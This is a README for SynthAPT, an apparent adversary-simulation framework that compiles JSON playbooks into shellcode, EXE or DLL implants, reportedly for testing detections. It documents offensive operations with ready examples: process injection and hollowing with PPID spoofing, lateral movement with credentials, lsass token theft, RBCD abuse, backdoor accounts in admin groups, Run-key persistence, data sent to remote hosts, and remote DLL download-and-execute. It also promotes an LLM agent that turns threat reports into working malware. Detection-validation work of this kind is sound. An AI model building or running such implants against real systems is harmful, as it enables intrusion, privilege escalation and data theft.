

# SynthAPT


## Overview

SynthAPT is a playbook-based adversary simulation framework for replicating complex attack paths. It is designed for validating advanced detections and AI-based investigation agents. The core idea is that malware behavior can be expressed in JSON and compiled into functional malware, enabling rapid development of realistic scenarios using LLMs.


The core implant is a shellcode payload driven by a playbook interpreter. A playbook predefines the full attack path and the implant follows it, moving throughout the environment via process injection, lateral movement, etc. Each implant spawns as an independent thread with its own instruction set, so multi-stage attacks (e.g. initial access → privesc → lateral movement → exfiltration) are expressed as a graph of cooperating implants, all defined upfront in the playbook. This has three major advantages:

1. Payloads can mimic real malware without C2 infrastructure - the full attack path is embedded in the payload and C2 interactions can be mocked
2. Payloads are repeatable - they execute the entire attack path identically every time, making them suitable for regression testing detections
3. LLMs can translate threat intelligence reports and blogs directly into working payloads, without requiring offensive expertise or building malware from scratch




## Features

- **Position-independent shellcode** - the implant is fully PIC and can be rolled into any loader or injector
- **Rich opcode library** - execution, token manipulation, process injection, process hollowing, lateral movement, AD enumeration and modification, registry, services, and more
- **Self-replicating payloads** - the implant can drop itself as an EXE or DLL with a different task set, enabling multi-stage delivery without a C2
- **Flexible output formats** - compile a playbook to raw shellcode, a PE EXE, or a PE DLL
- **In-memory Python** - a Python interpreter may be reflectively loaded at runtime, exposing all implant capabilities as a Python module for flexible scripting
- **NPC simulation** - 'explorer' opcodes allow unzipping and launching payloads automatically in a way that automatically reproduces user-interaction artifacts (when injected into Explorer.exe)
- **TUI editor with LLM agent** - a terminal-based playbook editor with an integrated Claude agent that can generate and edit playbooks from natural language or threat intelligence
- **BOF Loader** - functionality may be extended with standard Beacon Object Files

## Compiling

If you don't want to use the release, or you want to run it on something other than Linux, you can compile with cargo. You'll need the following:

1. Nightly Rust
2. Binutils
3. Cargo Make

```bash
rustup toolchain install nightly
apt install binutils-mingw-w64-x86-64
cargo install cargo-make
```

Build with cargo make:

```bash
cargo make build-nix
```

This will compile the shellcode and the editor.

## Use

Running SynthAPT without any commands will drop you into the editor. You can provide a Claude API key and view the changes as you prompt.

```bash
SynthAPT playbook editor and compiler

Usage: synthapt [COMMAND]

Commands:
  edit          Open the TUI editor with a playbook loaded from PATH
  validate      Validate a playbook JSON file and print any errors
  export-skill  Export the agent system prompt as a Claude Code slash command skill
  compile       Compile a playbook to a payload
```

If you want to use another LLM or a subscription, you can run `synthapt export-skill` and use that with whatever coding setup you have.

It should spit out a JSON playbook. Compile it into a payload with the compile command:

```bash
Compile a playbook to a payload

Usage: synthapt compile [OPTIONS] <PLAYBOOK> [OUTPUT]

Arguments:
  <PLAYBOOK>  Path to the playbook JSON file
  [OUTPUT]    Output file path (default: payload.bin / payload.exe / payload.dll)

Options:
  -e, --exe          Compile to PE EXE
  -d, --dll          Compile to PE DLL
  -b, --base <BASE>  Override the embedded base shellcode with a custom binary
  -h, --help         Print help
```


## Opcodes Reference

Constants can be defined as strings, hex objects, or base64 objects:
```json
"constants": [
  "c:\\windows\\temp\\file.txt",
  { "hex": "deadbeef" },
  { "base64": "SGVsbG8=" }
]
```

---

### end (0x00)
End of task set. Automatically appended by the compiler - you do not need to add it.

---

### store_result (0x01)
Store the last operation result into a variable.

| Field | Type | |
|-------|------|-|
| var | u16 | **required** |

```json
{ "op": "store_result", "var": 0 }
```

---

### get_shellcode (0x02)
Return the current shellcode bytes with an optional task ID and/or magic value patched in.

| Field | Type | |
|-------|------|-|
| task | u8 | *optional* |
| magic | u32 hex string or number | *optional* |

```json
{ "op": "get_shellcode" }
{ "op": "get_shellcode", "task": 5, "magic": "0x18181818" }
```

---

### sleep (0x03)
Sleep for the given number of milliseconds.

| Field | Type | |
|-------|------|-|
| ms | u32 | **required** |

```json
{ "op": "sleep", "ms": 5000 }
```

---

### run_command (0x04)
Execute a command via cmd.exe.

| Field | Type | |
|-------|------|-|
| command | string | **required** |

```json
{ "op": "run_command", "command": "whoami /all" }
```

---

### get_cwd (0x05)
Get the current working directory. No arguments.

```json
{ "op": "get_cwd" }
```

---

### read_file (0x06)
Read a file and return its contents.

| Field | Type | |
|-------|------|-|
| path | string | **required** |

```json
{ "op": "read_file", "path": "c:\\users\\public\\data.txt" }
{ "op": "read_file", "path": "%0" }
```

---

### write_file (0x07)
Write bytes to a file.

| Field | Type | |
|-------|------|-|
| path | string | **required** |
| content | bytes | *optional* (empty file if omitted) |

```json
{ "op": "write_file", "path": "c:\\temp\\out.txt", "content": "hello" }
{ "op": "write_file", "path": "%0", "content": "$1" }
```

---

### check_error (0x08)
Print the status code of a variable (0 = success, non-zero = error).

| Field | Type | |
|-------|------|-|
| var | u16 | **required** |

```json
{ "op": "check_error", "var": 0 }
```

---

### conditional (0x09)
Branch to different task indices based on variable state.

| Field | Type | |
|-------|------|-|
| mode | `"data"` or `"error"` | **required** |
| var1 | u16 | **required** |
| var2 | u16 | *optional* (compare two vars instead of single check) |
| true | u16 | **required** (task index if condition is true) |
| false | u16 | **required** (task index if condition is false) |

`true_target` and `false_target` are accepted as aliases for `true` and `false`.

Single-variable modes:
- `"data"` — true if var1 has non-empty data
- `"error"` — true if var1 status is 0 (success)

Two-variable modes (var2 present):
- `"data"` — true if var1 data equals var2 data
- `"error"` — true if var1 error code equals var2 error code

```json
{ "op": "conditional", "mode": "error", "var1": 0, "true": 3, "false": 5 }
{ "op": "conditional", "mode": "data", "var1": 0, "var2": 1, "true": 3, "false": 5 }
```

---

### set_var (0x0A)
Set a variable to a literal value.

| Field | Type | |
|-------|------|-|
| var | u16 | **required** |
| data | bytes | *optional* (empty if omitted) |

Literal string and hex/base64 values are stored with a 5-byte result prefix so they look like normal operation results when read back. Variable (`$n`) and constant (`%n`) references are passed through as-is.

```json
{ "op": "set_var", "var": 0, "data": "hello world" }
{ "op": "set_var", "var": 1, "data": { "hex": "deadbeef" } }
```

---

### print_var (0x0B)
Print a variable's contents to stdout (debug). Omit `var` to print the last operation result.

| Field | Type | |
|-------|------|-|
| var | u16 | *optional* (prints last result if absent) |

```json
{ "op": "print_var", "var": 0 }
{ "op": "print_var" }
```

---

### goto (0x0C)
Unconditional jump to a task index within the current task set.

| Field | Type | |
|-------|------|-|
| target | u16 | **required** |

```json
{ "op": "goto", "target": 2 }
```

---

### migrate (0x0D)
Inject shellcode into a process matching a search string or PID.

| Field | Type | |
|-------|------|-|
| task_id | u8 | **required** |
| search | string or number | *optional* (empty = no search; number = target PID) |
| magic | u32 hex string or number | *optional* |

```json
{ "op": "migrate", "task_id": 1, "search": "explorer.exe" }
{ "op": "migrate", "task_id": 1, "search": 1234 }
{ "op": "migrate", "task_id": 1, "search": "notepad", "magic": "0x18181818" }
```

---

### list_procs (0x0E)
List running processes. Returns tab-separated lines: `pid\timage\tcmdline\n`. No arguments.

```json
{ "op": "list_procs" }
```

---

### get_const (0x0F)
Load a constant into the last result. Accepts `index` or `const_idx` as the field name.

| Field | Type | |
|-------|------|-|
| index | u16 | **required** |

```json
{ "op": "get_const", "index": 0 }
```

---

### wmi_exec (0x10)
Execute a command via WMI, optionally on a remote host.

| Field | Type | |
|-------|------|-|
| command | string | **required** |
| host | string | *optional* (empty = localhost) |
| user | string | *optional* (empty = current user) |
| pass | string | *optional* (empty = current credentials) |

```json
{ "op": "wmi_exec", "command": "calc.exe" }
{ "op": "wmi_exec", "command": "cmd.exe /c whoami", "host": "192.168.1.10", "user": "CORP\\admin", "pass": "Password1" }
```

---

### http_send (0x11)
Send an HTTP/S request.

| Field | Type | |
|-------|------|-|
| host | string | **required** |
| method | string | *optional* (default: `"GET"`) |
| port | u16 | *optional* (default: `80`) |
| path | string | *optional* (default: `"/"`) |
| secure | bool | *optional* (default: `false`) |
| body | bytes | *optional* (empty if omitted) |

```json
{ "op": "http_send", "host": "example.com" }
{ "op": "http_send", "method": "POST", "host": "10.0.0.1", "port": 443, "path": "/data", "secure": true, "body": "$0" }
```

---

### sacrificial (0x12)
Spawn a process suspended, inject shellcode, and resume it.

| Field | Type | |
|-------|------|-|
| image | string | **required** |
| task_id | u8 | **required** |
| pipe_name | string | *optional* (named pipe for output capture, without `\\.\pipe\` prefix) |
| search | string | *optional* (process name/cmdline to spoof PPID from) |
| no_kill | bool | *optional* (default: false — process is killed after injection) |

```json
{ "op": "sacrificial", "image": "C:\\Windows\\System32\\notepad.exe", "task_id": 1 }
{ "op": "sacrificial", "image": "C:\\Windows\\System32\\svchost.exe", "task_id": 1, "search": "services.exe", "pipe_name": "output" }
```

---

### redirect_stdout (0x13)
Redirect stdout to a file or named pipe. Subsequent `run_command` output goes there.

| Field | Type | |
|-------|------|-|
| path | string | **required** |

```json
{ "op": "redirect_stdout", "path": "c:\\temp\\log.txt" }
{ "op": "redirect_stdout", "path": "\\\\.\\pipe\\output" }
```

---

### shellcode_server (0x14)
Start a TCP server that serves shellcode to connecting clients. Each client receives a copy with an incrementing magic value.

| Field | Type | |
|-------|------|-|
| port | u16 | **required** |
| magic_base | u32 hex string or number | *optional* |

```json
{ "op": "shellcode_server", "port": 8080 }
{ "op": "shellcode_server", "port": 8080, "magic_base": "0x18181818" }
```

---

### resolve_hostname (0x15)
Resolve a hostname to an IPv4 address string.

| Field | Type | |
|-------|------|-|
| hostname | string | **required** |

```json
{ "op": "resolve_hostname", "hostname": "dc01.corp.local" }
```

---

### psexec (0x16)
Copy a binary to a remote host via SMB and execute it as a service (PsExec-style lateral movement).

| Field | Type | |
|-------|------|-|
| target | string | **required** (hostname or IP) |
| service_name | string | **required** |
| display_name | string | **required** |
| binary_path | string | **required** (path on the remote host) |
| service_bin | bytes | **required** (binary data to write) |

```json
{ "op": "psexec", "target": "192.168.1.10", "service_name": "MySvc", "display_name": "My Service", "binary_path": "c:\\windows\\temp\\svc.exe", "service_bin": "$0" }
```

---

### generate_exe (0x17)
Generate a PE executable with the current shellcode and bytecode embedded.

| Field | Type | |
|-------|------|-|
| task_id | u8 | **required** |

```json
{ "op": "generate_exe", "task_id": 1 },
{ "op": "store_result", "var": 0 },
{ "op": "write_file", "path": "c:\\temp\\payload.exe", "content": "$0" }
```

---

### run_bof (0x18)
Execute a Beacon Object File (BOF).

| Field | Type | |
|-------|------|-|
| bof_data | bytes | **required** |
| entry | string | *optional* (default: `"go"`) |
| inputs | bytes | *optional* (BOF arguments, empty if omitted) |

```json
{ "op": "run_bof", "bof_data": "%0", "entry": "go", "inputs": "" }
{ "op": "run_bof", "bof_data": "$0" }
```

---

### query_ldap (0x19)
Query an LDAP directory.

| Field | Type | |
|-------|------|-|
| base | string | **required** (base DN) |
| filter | string | **required** |
| scope | u8 | *optional* (default: `2` = subtree; `0` = base, `1` = one-level) |
| attribute | string | *optional* (empty = return all attributes) |

```json
{ "op": "query_ldap", "base": "DC=corp,DC=local", "filter": "(objectClass=user)", "attribute": "sAMAccountName" }
{ "op": "query_ldap", "base": "DC=corp,DC=local", "filter": "(&(objectClass=computer)(operatingSystem=*Server*))", "scope": 2 }
```

---

### set_ad_attr_str (0x1A)
Set an Active Directory attribute to a string value.

| Field | Type | |
|-------|------|-|
| dn | string | **required** |
| attr | string | **required** |
| value | string | **required** |

```json
{ "op": "set_ad_attr_str", "dn": "CN=user,CN=Users,DC=corp,DC=local", "attr": "description", "value": "owned" }
```

---

### set_ad_attr_bin (0x1B)
Set an Active Directory attribute to a binary value. Pass an empty value to delete the attribute.

| Field | Type | |
|-------|------|-|
| dn | string | **required** |
| attr | string | **required** |
| value | bytes | **required** (empty = delete attribute) |

```json
{ "op": "set_ad_attr_bin", "dn": "CN=target,CN=Computers,DC=corp,DC=local", "attr": "msDS-AllowedToActOnBehalfOfOtherIdentity", "value": "$0" }
```

---

### portscan (0x1C)
Scan TCP ports on one or more targets. Returns `host\tport\n` lines for open ports only.

| Field | Type | |
|-------|------|-|
| targets | string | **required** (comma-separated IPs, CIDRs, ranges, or hostnames; alias: `host`) |
| ports | string | **required** (comma-separated ports or ranges, e.g. `"22,80,443,8000-8100"`) |

```json
{ "op": "portscan", "targets": "10.0.0.0/24", "ports": "22,80,443,445,3389" }
{ "op": "portscan", "targets": "192.168.1.1-192.168.1.50,dc01.corp.local", "ports": "80,8000-8100" }
```

---

### set_user_password (0x1D)
Set a local or domain user's password via NetUserSetInfo.

| Field | Type | |
|-------|------|-|
| username | string | **required** |
| password | string | **required** |
| server | string | *optional* (empty = local machine) |

```json
{ "op": "set_user_password", "username": "Administrator", "password": "NewP@ss1" }
{ "op": "set_user_password", "server": "dc01.corp.local", "username": "svc_account", "password": "NewP@ss1" }
```

---

### add_user_to_localgroup (0x1E)
Add a user to a local group via NetLocalGroupAddMembers.

| Field | Type | |
|-------|------|-|
| group | string | **required** |
| username | string | **required** |
| server | string | *optional* (empty = local machine) |

```json
{ "op": "add_user_to_localgroup", "group": "Administrators", "username": "backdoor" }
{ "op": "add_user_to_localgroup", "server": "ws01", "group": "Remote Desktop Users", "username": "CORP\\attacker" }
```

---

### remove_user_from_localgroup (0x1F)
Remove a user from a local group via NetLocalGroupDelMembers.

| Field | Type | |
|-------|------|-|
| group | string | **required** |
| username | string | **required** |
| server | string | *optional* (empty = local machine) |

```json
{ "op": "remove_user_from_localgroup", "group": "Administrators", "username": "backdoor" }
```

---

### get_user_sid (0x20)
Look up a user's SID string via LookupAccountName.

| Field | Type | |
|-------|------|-|
| username | string | **required** |
| server | string | *optional* (empty = local machine) |

Returns a SID string, e.g. `S-1-5-21-...`.

```json
{ "op": "get_user_sid", "username": "Administrator" }
{ "op": "get_user_sid", "server": "dc01.corp.local", "username": "attacker$" }
```

---

### add_user_to_group (0x21)
Add a user to a domain group via NetGroupAddUser.

| Field | Type | |
|-------|------|-|
| group | string | **required** |
| username | string | **required** |
| server | string | *optional* (empty = local DC) |

```json
{ "op": "add_user_to_group", "server": "dc01.corp.local", "group": "Domain Admins", "username": "compromised" }
```

---

### remove_user_from_group (0x22)
Remove a user from a domain group via NetGroupDelUser.

| Field | Type | |
|-------|------|-|
| group | string | **required** |
| username | string | **required** |
| server | string | *optional* (empty = local DC) |

```json
{ "op": "remove_user_from_group", "server": "dc01.corp.local", "group": "Domain Admins", "username": "compromised" }
```

---

### create_rbcd_ace (0x23)
Build a binary ACE for Resource-Based Constrained Delegation. The result is suitable for writing directly to `msDS-AllowedToActOnBehalfOfOtherIdentity`.

| Field | Type | |
|-------|------|-|
| sid | string | **required** (SID string, e.g. from `get_user_sid`) |

```json
{ "op": "get_user_sid", "username": "attacker$" },
{ "op": "store_result", "var": 0 },
{ "op": "create_rbcd_ace", "sid": "$0" },
{ "op": "store_result", "var": 1 },
{ "op": "set_ad_attr_bin", "dn": "CN=target,CN=Computers,DC=corp,DC=local", "attr": "msDS-AllowedToActOnBehalfOfOtherIdentity", "value": "$1" }
```

---

### reg_create_key (0x24)
Create a registry key.

| Field | Type | |
|-------|------|-|
| key | string | **required** (full path, e.g. `"HKLM\\SOFTWARE\\MyApp"`) |

```json
{ "op": "reg_create_key", "key": "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" }
```

---

### reg_delete_key (0x25)
Delete a registry key.

| Field | Type | |
|-------|------|-|
| key | string | **required** |

```json
{ "op": "reg_delete_key", "key": "HKLM\\SOFTWARE\\MyApp" }
```

---

### reg_set_value (0x26)
Set a registry value.

| Field | Type | |
|-------|------|-|
| key | string | **required** |
| value_name | string | **required** (empty string for default value) |
| value | bytes | **required** |
| value_type | string | *optional* (default: `"REG_SZ"`; also: `REG_DWORD`, `REG_BINARY`, `REG_EXPAND_SZ`, `REG_MULTI_SZ`, `REG_QWORD`) |

```json
{ "op": "reg_set_value", "key": "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run", "value_name": "Updater", "value": "C:\\Windows\\Temp\\payload.exe" }
{ "op": "reg_set_value", "key": "HKLM\\SOFTWARE\\MyApp", "value_name": "Count", "value_type": "REG_DWORD", "value": { "hex": "05000000" } }
```

---

### reg_query_value (0x27)
Query a registry value. Returns raw value bytes.

| Field | Type | |
|-------|------|-|
| key | string | **required** |
| value_name | string | **required** (empty string for default value) |

```json
{ "op": "reg_query_value", "key": "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", "value_name": "ProductName" }
```

---

### make_token (0x28)
Create an impersonation token via LogonUser and impersonate it. The default logon type is `9` (LOGON32_LOGON_NEW_CREDENTIALS), which uses the supplied credentials for outbound network connections while keeping the local token unchanged.

| Field | Type | |
|-------|------|-|
| username | string | **required** |
| password | string | **required** |
| domain | string | *optional* (empty = workgroup or UPN format) |
| logon_type | u8 | *optional* (default: `9`; `2` = interactive, `3` = network) |

```json
{ "op": "make_token", "domain": "corp", "username": "bob", "password": "Password1" }
{ "op": "make_token", "username": "bob@corp.local", "password": "Password1" }
{ "op": "make_token", "domain": ".", "username": "localadmin", "password": "Password1", "logon_type": 2 }
```

---

### impersonate_process (0x29)
Open a process token and impersonate it. Useful for privilege escalation or lateral token theft.

| Field | Type | |
|-------|------|-|
| search | string | **required** (matches image name or command line) |

```json
{ "op": "impersonate_process", "search": "lsass" }
{ "op": "impersonate_process", "search": "winlogon.exe" }
```

---

### enable_privilege (0x2A)
Enable a privilege on a process token.

| Field | Type | |
|-------|------|-|
| privilege | string | **required** (alias: `priv_name`) |
| search | string | *optional* (empty = current process) |

```json
{ "op": "enable_privilege", "privilege": "SeDebugPrivilege" }
{ "op": "enable_privilege", "search": "lsass", "privilege": "SeTcbPrivilege" }
```

---

### list_process_privs (0x2B)
List privilege names and their enabled/disabled state for a process. Returns `name\tenabled\n` or `name\tdisabled\n` lines.

| Field | Type | |
|-------|------|-|
| search | string | *optional* (empty = current process) |

```json
{ "op": "list_process_privs" }
{ "op": "list_process_privs", "search": "explorer" }
```

---

### list_thread_privs (0x2C)
List privileges on the current thread token. Returns the same format as `list_process_privs`. No arguments.

```json
{ "op": "list_thread_privs" }
```

---

### delete_file (0x2D)
Delete a file.

| Field | Type | |
|-------|------|-|
| path | string | **required** |

```json
{ "op": "delete_file", "path": "c:\\temp\\payload.exe" }
```

---

### revert_to_self (0x2E)
Revert to the original process token, ending any impersonation. No arguments.

```json
{ "op": "revert_to_self" }
```

---

### start_service (0x2F)
Start a Windows service.

| Field | Type | |
|-------|------|-|
| service_name | string | **required** |
| target | string | *optional* (empty = local machine) |

```json
{ "op": "start_service", "service_name": "MySvc" }
{ "op": "start_service", "target": "192.168.1.10", "service_name": "MySvc" }
```

---

### delete_service (0x30)
Delete a Windows service.

| Field | Type | |
|-------|------|-|
| service_name | string | **required** |
| target | string | *optional* (empty = local machine) |

```json
{ "op": "delete_service", "service_name": "MySvc" }
{ "op": "delete_service", "target": "192.168.1.10", "service_name": "MySvc" }
```

---

### create_thread (0x31)
Spawn a new thread in the current process running a copy of the shellcode. If `magic` is omitted, scans process heaps to find a unique magic that won't collide with existing instances.

| Field | Type | |
|-------|------|-|
| task | u8 | *optional* (omit or `255` = same task set as current thread) |
| magic | u32 hex string or number | *optional* (auto-detected if omitted) |

> **Warning**: omitting `task` runs the same task set in a new thread. If the task set calls `create_thread` again, this causes infinite threads.

```json
{ "op": "create_thread", "task": 2 }
{ "op": "create_thread", "task": 2, "magic": "0x18181818" }
```

---

### generate_dll (0x32)
Generate a DLL with the current shellcode embedded. Runs shellcode on `DLL_PROCESS_ATTACH` and exports a named function that also runs shellcode.

| Field | Type | |
|-------|------|-|
| task_id | u8 | **required** |
| export_name | string | *optional* (default: `"Run"`) |

```json
{ "op": "generate_dll", "task_id": 2 },
{ "op": "store_result", "var": 0 },
{ "op": "write_file", "path": "c:\\temp\\payload.dll", "content": "$0" }
```

---

### shell_execute (0x33)
Execute a file using ShellExecuteEx via COM. The resulting process appears to be launched by the shell.

| Field | Type | |
|-------|------|-|
| path | string | **required** |
| verb | string | *optional* (e.g. `"open"`, `"runas"`) |
| args | string | *optional* |

```json
{ "op": "shell_execute", "path": "C:\\Windows\\System32\\cmd.exe", "verb": "open", "args": "/c whoami" }
{ "op": "shell_execute", "path": "C:\\Users\\Public\\payload.exe", "verb": "runas", "args": "" }
```

---

### shell_extract (0x34)
Extract a ZIP archive using the Windows Shell.

| Field | Type | |
|-------|------|-|
| path | string | **required** (path to the ZIP file) |

Extracts to a folder with the same name as the ZIP (without extension) in the same directory.

```json
{ "op": "shell_extract", "path": "C:\\Users\\alice\\Downloads\\Invoice_2024.zip" }
```

---

### shell_execute_explorer (0x35)
Execute a file via explorer.exe as the parent process using COM. The spawned process appears to have been launched by the user from Explorer.

| Field | Type | |
|-------|------|-|
| path | string | **required** |
| verb | string | *optional* |
| args | string | *optional* |

```json
{ "op": "shell_execute_explorer", "path": "C:\\Users\\alice\\Downloads\\Invoice.js", "verb": "open", "args": "" }
```

---

### load_library (0x36)
Load a DLL into the current process via LoadLibraryW.

| Field | Type | |
|-------|------|-|
| path | string | **required** |

```json
{ "op": "load_library", "path": "C:\\Users\\Public\\payload.dll" }
```

---

### pyexec (0x37)
Download a Python DLL from a URL (cached in memory after first download), then execute a Python script. Exposes an `agent` module with bindings to all agent opcodes.

| Field | Type | |
|-------|------|-|
| url | string | *optional* (URL to Python DLL; empty = use already-loaded Python) |
| script | string | *optional* (Python code to execute; empty = initialize without running) |

```json
{ "op": "pyexec", "url": "http://10.0.0.1/python312.dll", "script": "import agent; print(agent.get_cwd())" }
{ "op": "pyexec", "url": "http://10.0.0.1/python312.dll", "script": "" }
{ "op": "pyexec", "script": "import agent; agent.run_command('calc.exe')" }
```

---

### hollow (0x38)
Process hollowing: spawn a legitimate process suspended, overwrite its entry point with shellcode, and resume.

| Field | Type | |
|-------|------|-|
| image | string | **required** |
| task_id | u8 | **required** |
| search | string | *optional* (process name/cmdline to spoof PPID from) |

```json
{ "op": "hollow", "image": "C:\\Windows\\System32\\svchost.exe", "task_id": 1 }
{ "op": "hollow", "image": "C:\\Windows\\System32\\RuntimeBroker.exe", "task_id": 1, "search": "explorer" }
```

---

### migrate_apc (0x39)
Spawn a process suspended, allocate RWX memory, write shellcode, queue an APC to the main thread, and resume. Returns the spawned process PID.

| Field | Type | |
|-------|------|-|
| image | string | **required** |
| task_id | u8 | **required** |
| magic | u32 hex string or number | *optional* |

```json
{ "op": "migrate_apc", "image": "C:\\Windows\\System32\\notepad.exe", "task_id": 1 }
{ "op": "migrate_apc", "image": "C:\\Windows\\System32\\svchost.exe", "task_id": 1, "magic": "0x18181818" }
```

---

### register_service (0x3A)
Register the current process as a Windows service by calling `StartServiceCtrlDispatcher`. Must be called early when the process is started by the Service Control Manager, otherwise SCM will kill it after ~30 seconds. Runs SCM communication in a background thread so the main task set continues normally.

| Field | Type | |
|-------|------|-|
| service_name | string | **required** (alias: `name`) |

```json
{ "op": "register_service", "service_name": "MySvc" }
```

---

### exit_process (0x3B)
Terminate the current process.

| Field | Type | |
|-------|------|-|
| exit_code | u32 | *optional* (default: `0`) |

```json
{ "op": "exit_process" }
{ "op": "exit_process", "exit_code": 1 }
```

---

### hollow_apc (0x3C)
Spawn a process suspended and inject shellcode via APC. Similar to `migrate_apc` but with optional PPID spoofing.

| Field | Type | |
|-------|------|-|
| image | string | **required** |
| task_id | u8 | **required** |
| search | string | *optional* (process name/cmdline to spoof PPID from) |

```json
{ "op": "hollow_apc", "image": "C:\\Windows\\System32\\notepad.exe", "task_id": 1 }
{ "op": "hollow_apc", "image": "C:\\Windows\\System32\\svchost.exe", "task_id": 1, "search": "services.exe" }
```

---

### frida_hook (0x3F)
Download a Frida gadget DLL from a URL (cached after first download) and install a JavaScript hook.

| Field | Type | |
|-------|------|-|
| url | string | **required** |
| script | string | **required** (JavaScript using Frida's API) |
| name | string | *optional* (hook name for later reference with `frida_unhook`) |
| callback_host | string | *optional* (host to HTTP POST `send()` messages to) |
| callback_port | u16 | *optional* |
| batch_size | u32 | *optional* (messages per HTTP POST batch; default: `50`) |
| flush_interval | u32 | *optional* (flush interval in ms; default: `5000`) |

Messages sent via `send()` in JavaScript are either posted to `callback_host:callback_port/frida` or written to stdout if no callback is configured.

```json
{ "op": "frida_hook", "url": "http://10.0.0.1/frida.dll", "script": "Interceptor.attach(Module.findExportByName('kernel32.dll', 'CreateFileW'), { onEnter: function(args) { send(args[0].readUtf16String()); } });" }
{ "op": "frida_hook", "url": "http://10.0.0.1/frida.dll", "script": "...", "name": "my_hook", "callback_host": "10.0.0.5", "callback_port": 8080 }
```

---

### frida_unhook (0x40)
Unload a Frida hook. With no arguments, unloads all hooks.

| Field | Type | |
|-------|------|-|
| hook_id | i32 | *optional* (hook ID returned by `frida_hook`) |
| name | string | *optional* (hook name set with `frida_hook` `name` field) |

```json
{ "op": "frida_unhook" }
{ "op": "frida_unhook", "hook_id": 1 }
{ "op": "frida_unhook", "name": "my_hook" }
```

---

### kill (0x42)
Kill a running agent instance by its magic value.

| Field | Type | |
|-------|------|-|
| magic | u32 hex string or number | *optional* (omit to kill the current instance) |

```json
{ "op": "kill" }
{ "op": "kill", "magic": "0x18181818" }
```

---

### http_beacon (0x43)
Connect to an HTTP C2 server and poll for bytecode tasks.

| Field | Type | |
|-------|------|-|
| host | string | *optional* |
| port | u16 | *optional* (default: `80`) |
| interval | u32 | *optional* (poll interval in ms; default: `5000`) |
| secure | bool | *optional* (default: `false`) |
| agent_id | string | *optional* (identifier sent in beacon requests) |

```json
{ "op": "http_beacon", "host": "10.0.0.1", "port": 443, "interval": 10000, "secure": true }
```

---

### mem_read (0x44)
Read raw bytes from a memory address in the current or a remote process.

| Field | Type | |
|-------|------|-|
| address | hex string | **required** (address as hex chars, e.g. `"7FFE0030"`; `0x` prefix is stripped automatically) |
| size | u32 | **required** |
| pid | u32 | *optional* (remote process; omit for local read) |

```json
{ "op": "mem_read", "address": "7FFE0030", "size": 64 }
{ "op": "mem_read", "address": "0x7FFE0000", "size": 256, "pid": 1234 }
{ "op": "mem_read", "address": "$0", "size": 128 }
```

---

### dll_list (0x45)
Walk the PEB LDR `InLoadOrderModuleList` and return loaded modules. Returns postcard-serialized `Vec<ProcessResult<ModuleInfo>>`.

| Field | Type | |
|-------|------|-|
| pid | u32 or `"all"` | *optional* (omit = current process; `"all"` = every accessible process) |

```json
{ "op": "dll_list" }
{ "op": "dll_list", "pid": 1234 }
{ "op": "dll_list", "pid": "all" }
```

---

### mem_map (0x46)
Enumerate virtual memory regions via `VirtualQuery`/`VirtualQueryEx`. Returns postcard-serialized `Vec<ProcessResult<MemRegion>>`. Skips FREE regions; IMAGE regions include module name and PE section.

| Field | Type | |
|-------|------|-|
| pid | u32 or `"all"` | *optional* (omit = current process; `"all"` = every accessible process) |

```json
{ "op": "mem_map" }
{ "op": "mem_map", "pid": 1234 }
{ "op": "mem_map", "pid": "all" }
```

---

### malfind (0x47)
Find committed private executable memory regions — indicators of injected shellcode or reflective DLLs. Skips all-zero pages and notes regions with MZ headers. Returns postcard-serialized `Vec<ProcessResult<MalfindHit>>`.

| Field | Type | |
|-------|------|-|
| pid | u32 or `"all"` | *optional* (omit = current process; `"all"` = every accessible process) |

```json
{ "op": "malfind" }
{ "op": "malfind", "pid": 1234 }
{ "op": "malfind", "pid": "all" }
```

---

### ldr_check (0x48)
Cross-reference IMAGE memory regions against the PEB module list to find unlinked or hidden DLLs — regions with MZ headers not present in `InLoadOrderModuleList`. Returns postcard-serialized `Vec<ProcessResult<LdrCheckHit>>`.

| Field | Type | |
|-------|------|-|
| pid | u32 or `"all"` | *optional* (omit = current process; `"all"` = every accessible process) |

```json
{ "op": "ldr_check" }
{ "op": "ldr_check", "pid": 1234 }
{ "op": "ldr_check", "pid": "all" }
```

## Detection

Like all frameworks, the implant has a distinct in-memory footprint, and many plaintext strings that give it away. You can build signatures off the base shellcode file: `out/shellcode.bin`

## Attribution

This project extends [Rustic64Shell](https://github.com/safedv/Rustic64Shell) by safedev.

The reflectively loaded Python DLL is from [farfella](https://github.com/farfella/in-memory-cpython)